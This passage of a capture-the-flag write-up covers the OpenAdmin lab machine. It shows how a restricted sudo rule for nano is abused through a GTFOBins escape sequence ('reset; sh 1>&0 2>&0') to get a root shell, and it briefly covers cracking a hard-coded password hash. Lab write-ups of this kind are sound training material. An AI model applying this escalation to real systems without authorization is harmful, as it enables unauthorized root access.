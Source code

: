 ### Priv: joanna -> root
Turns out, `joanna` can `sudo`, albeit restrictively:
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Luckily in such situations, there's a super awesome resource called [GTFOBins](https://gtfobins.github.io/) that tells you exactly what to do in this situation. (All thanks to IppSec for first introducing this resource).

Search GTFOBins for `nano` and click `sudo` (that's what we have - _sudo_ _nano_).

Follow the instructions (but adapt a little):
```
joanna@openadmin:~$ sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
Note: ^ -> ctrl. 

Once you hit `^R^X` and entered the string `reset; sh 1>&0 2>&0`, you should see a `#` appear at the end of the line. From there if you type `id`, you should see that you're root.
```
Command to execute: reset; sh 1>&0 2>&0# id                                                                                                        
uid=0(root) gid=0(root) groups=0(root)
```

:)

### Enumeration that turned out to be useless:
Remember when we saw that `/var/www/internal/index.php` contained a hard-coded form of authentication? Which absolutely tied in with why we didn't find anything juicy earlier in the mysql database? 

If we cracked it, e.g. by throwing it into [crackstation](https://crackstation.net), you get this result:
Hash | Type | Result
--- | --- | ---
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758e<br>ebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1 | sha512 | Revealed

...which turns out to not be something we can use. (Or had to use, anyway).

